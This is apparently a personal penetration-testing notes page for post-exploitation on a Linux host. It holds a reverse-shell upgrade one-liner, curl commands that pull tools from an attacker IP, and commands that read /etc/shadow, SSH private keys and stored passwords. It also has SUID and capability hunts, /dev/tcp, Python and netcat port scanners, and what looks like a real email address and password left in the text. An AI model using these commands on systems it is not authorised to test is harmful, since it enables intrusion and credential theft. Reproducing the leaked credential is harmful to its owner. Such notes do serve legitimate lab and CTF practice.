 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```


```
hostname
uname -a
lscpu
ps aux


whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1
cat /etc/shadow
cat /.ssh/id_rsa


grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
find / -name authorized_keys 2> /dev/null 
find / -name id_rsa 2> /dev/null


sudo -l
find / -perm -u=s -type f 2>/dev/null
strace /usr/local/bin/suid-so 2>&1
env
print $PATH
getcap -r / 2>/dev/null

cat /etc/crontab
cat /etc/exports
```


```
s.singh.kv4.2021@gmail.com

4_tJG--A84K"jitD|ft{73}b,a3]wyg9
```


### Check the OS information
```
cat /etc/os-release
```


### Ping Sweep 

Bash
```
#!/bin/bash  
ports=(21 22 53 80 443 3306 8443 8080)  
for port in ${ports[@]}; do  
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"   
done
```


Python
```
#!/usr/bin/python3  
import socket  
host = "1.1.1.1"  
portList = [21,22,53,80,443,3306,8443,8080]  
for port in portList:  
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
 try:  
  s.connect((host,port))  
  print("Port ", port, " is open")  
 except:  
  print("Port ", port, " is closed")
```


Netcat aka NC
```
nc -zv <IP_Address> 1-65535
```

I think the best option should be nc but will try the upper one as well but as i am not able to make file with nano/vim/vi will go with nc than

